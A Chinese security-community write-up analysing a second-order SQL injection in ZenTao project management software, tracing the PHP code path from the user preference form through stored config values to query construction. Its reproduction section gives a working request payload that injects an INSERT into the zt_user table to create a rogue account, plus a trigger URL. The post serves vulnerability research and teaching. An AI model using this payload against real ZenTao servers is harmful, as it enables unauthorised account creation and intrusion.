





# 禅道二次 sql 注入分析-先知社区

> **来源**: https://xz.aliyun.com/news/16650  
> **文章ID**: 16650

---

# 禅道二次 sql 注入分析

## 前言

以前学二次注入只在 ctf 中看到过，这次好不容易有真实的环境了，也是来跟着分析分析，二次注入还是比较难以发现的，感觉真的逻辑太妙了

## 简单介绍

禅道由禅道软件（青岛）有限公司开发，国产开源项目管理软件。它集项目集管理、产品管理、项目管理、执行管理、质量管理、DevOps、知识库、AI 智能、BI 效能、工作流、学堂、反馈管理、资产库管理、组织管理和事务管理于一体，是一款专业的研发项目管理软件，完整覆盖了研发项目管理的核心流程。禅道管理思想注重实效，功能完备丰富，操作简洁高效，界面美观大方，搜索功能强大，统计报表丰富多样，软件架构合理，扩展灵活，有完善的 API 可以调用。禅道，专注研发项目管理！

## 环境搭建

这里需要版本满足如下

```
20.0.beta1<=version<20.2 

18.0.beta1<=version<=18.13.stable 

17.0.beta1<=version<=17.8
```

然后下载对应的版本，参考  
<https://www.zentao.net/book/zentaopms/811.html>

首先安装好各种服务

  
然后就可以启动环境了  
进入后修改一下默认密码就 ok 了

成功后如下



## 漏洞分析

### 注入点寻找

首先我们寻找可以 sql 注入的点在哪里，这个其实是比较难找的，首先就是不能对我们输入的参数有转义或者各种的限制，直接看到

app/zentao/module/my/control.php

```
public function preference($showTip = true)
{
    $this->loadModel('setting');

    if($_POST)
    {
        foreach($_POST as $key => $value) $this->setting->setItem("{$this->app->user->account}.common.$key", $value);

        $this->setting->setItem("{$this->app->user->account}.common.preferenceSetted", 1);
        if(isOnlybody()) return print(js::closeModal('parent.parent'));

        return print(js::locate($this->createLink('my', 'index'), 'parent'));
    }

    $this->view->title      = $this->lang->my->common . $this->lang->colon . $this->lang->my->preference;
    $this->view->position[] = $this->lang->my->preference;
    $this->view->showTip    = $showTip;

    $this->view->URSRList         = $this->loadModel('custom')->getURSRPairs();
    $this->view->URSR             = $this->setting->getURSR();
    $this->view->programLink      = isset($this->config->programLink)   ? $this->config->programLink   : 'program-browse';
    $this->view->productLink      = isset($this->config->productLink)   ? $this->config->productLink   : 'product-all';
    $this->view->projectLink      = isset($this->config->projectLink)   ? $this->config->projectLink   : 'project-browse';
    $this->view->executionLink    = isset($this->config->executionLink) ? $this->config->executionLink : 'execution-task';
    $this->view->preferenceSetted = isset($this->config->preferenceSetted) ? true : false;

    $this->display();
}

```

可以看到这个方法中对于我们的 POST 传入的内容没有进行任何的处理，然后直接放入了 setItem 方法

我们跟进这个方法

注意这里前面是$this->loadModel('setting');  
所以我们看到  
app/zentao/module/setting/model.php

```
public function setItem($path, $value = '')
{
    $item = $this->parseItemPath($path);
    if(empty($item)) return false;

    $item->value = strval($value);
    $this->dao->replace(TABLE_CONFIG)->data($item)->exec();
}
```

对于我们输入的 value，只进行了 strval 的处理

我们看看对 key 的处理

跟进 parseItemPath 方法

```
public function parseItemPath($path)
{
    /* Determine vision of config item. */
    $pathVision = explode('@', $path);
    $vision     = isset($pathVision[1]) ? $pathVision[1] : '';
    $path       = $pathVision[0];

    /* fix bug when account has dot. */
    $account = isset($this->app->user->account) ? $this->app->user->account : '';
    $replace = false;
    if($account and strpos($path, $account) === 0)
    {
        $replace = true;
        $path    = preg_replace("/^{$account}/", 'account', $path);
    }

    $level   = substr_count($path, '.');
    $section = '';

    if($level <= 1) return false;
    if($level == 2) list($owner, $module, $key) = explode('.', $path);
    if($level == 3) list($owner, $module, $section, $key) = explode('.', $path);
    if($replace) $owner = $account;

    $item = new stdclass();
    $item->owner   = $owner;
    $item->module  = $module;
    $item->section = $section;
    $item->key     = $key;
    if(!empty($vision)) $item->vision = $vision;

    return $item;
}
```

就是解析配置项的路径并将其分解为具有不同属性的对象

创建一个 stdClass 对象，将解析后的 owner、module、section、key 等信息作为对象的属性。

对应着  


我们能够控制的只有 key 和 value

然后回到 setItem 方法，处理后的结果交给了我们的 data 方法

```
public function data($data, $skipFields = '')
{
    $data = (object) $data;
    if($skipFields) $this->skipFields = ',' . str_replace(' ', '', $skipFields) . ',';

    if($this->method != 'insert')
    {
        foreach($data as $field => $value)
        {
            if(!preg_match('|^\w+$|', $field))
            {
                unset($data->$field);
                continue;
            }
            if(strpos($this->skipFields, ",$field,") !== false) continue;
            if($field == 'id' and $this->method == 'update') continue;     // primary key not allowed in dmdb.

            $this->sql .= "`$field` = " . $this->quote($value) . ',';
        }
    }

    $this->data = $data;
    $this->sql  = rtrim($this->sql, ',');    // Remove the last ','.
    return $this;
}
```

处理是在 quote 方法

```
**
 * 对字段加转义。
 * Quote a var.
 *
 * @param  mixed  $value
 * @access public
 * @return mixed
 */
public function quote($value)
{
    if($value === null) return 'NULL';
    if($this->magicQuote) $value = stripslashes($value);
    return $this->dbh->quote((string)$value);
}
```

会转义单引号

之后就使用 exec 方法直接执行我们的 sql 语句了，保存在 zt\_config

### 触发点寻找

如何二次注入呢，参考<https://forum.butian.net/article/649师傅分析得非常非常明白>

由于这是一个二次注入，因此找触发点第二步从漏洞原理出发：

代码逻辑从 table\_config 获取数据，然后拼接到不论哪个表的 where 条件中，并且增删改查等 sql 语句\*\*（不能经过链式操作函数，因此这些函数都会转义承接的数据过滤加入 quotes）

查找思路要么找第一步 table\_config 数据表获取数据 select 的\*/value，要么找第二步直接拼接 where 条件的 sql 语句。

从第一步查找正则  `select[^
\
]+\_config` 搜索，结合 zt\_config 表拥有的字段和注入点可排除的条件有：owner、section、vision 为空、module 为 common、key 和 value 可控可任意设置。

这里使用 getSysAndPersonalConfig 方法

```
public function getSysAndPersonalConfig($account = '')
{
    $owner   = 'system,' . ($account ? $account : '');
    $records = $this->dao->select('*')->from(TABLE_CONFIG)
        ->where('owner')->in($owner)
        ->beginIF(!defined('IN_UPGRADE'))->andWhere('vision')->in(array('', $this->config->vision))->fi()
        ->orderBy('id')
        ->fetchAll('id');
    if(!$records) return array();

    $vision = $this->config->vision;

    /* Group records by owner and module. */
    $config = array();
    foreach($records as $record)
    {
        if(!isset($config[$record->owner])) $config[$record->owner] = new stdclass();
        if(!isset($record->module)) return array();    // If no module field, return directly. Since 3.2 version, there's the module field.
        if(empty($record->module)) continue;

        /* If it`s lite vision unset config requiredFields */
        if($vision == 'lite' and $record->key == 'requiredFields' and $record->vision == '') continue;

        $config[$record->owner]->{$record->module}[] = $record;
    }
    return $config;
}
```

然后就是一直往上找调用链子的路



而且$account 是为空的

会调用到 mergeConfig 方法

```
public  function mergeConfig($dbConfig, $moduleName = 'common')
{
    global $config;

    /* 如果没有设置本模块配置，则首先进行初始化。Init the $config->$moduleName if not set.*/
    if($moduleName != 'common' and !isset($config->$moduleName)) $config->$moduleName = new stdclass();

    $config2Merge = $config;
    if($moduleName != 'common') $config2Merge = $config->$moduleName;

    foreach($dbConfig as $item)
    {
        if($item->section)
        {
            if(!isset($config2Merge->{$item->section})) $config2Merge->{$item->section} = new stdclass();
            if(is_object($config2Merge->{$item->section}))
            {
                $config2Merge->{$item->section}->{$item->key} = $item->value;
            }
        }
        else
        {
            $config2Merge->{$item->key} = $item->value;
        }
    }
}
```

它的主要功能是将数据库配置项 (config 配置对象中

然后下面的逻辑分析还是参考<https://forum.butian.net/article/649>

写得很严密



## 漏洞复现

先存放我们的语句

```
/zentao/my-preference.html

edition=1&vision=1';insert%20into%20zt_user(type,account,password,realname,pinyin)%20value('inside','bbba','e10adc3949ba59abbe56e057f20f883e','bbba','bbba');#/../../open/rnd
```

然后我们再访问 product 触发

```
/zentao/project-method.html
```

你可以去数据库验证，或者去登录都 ok


# ​
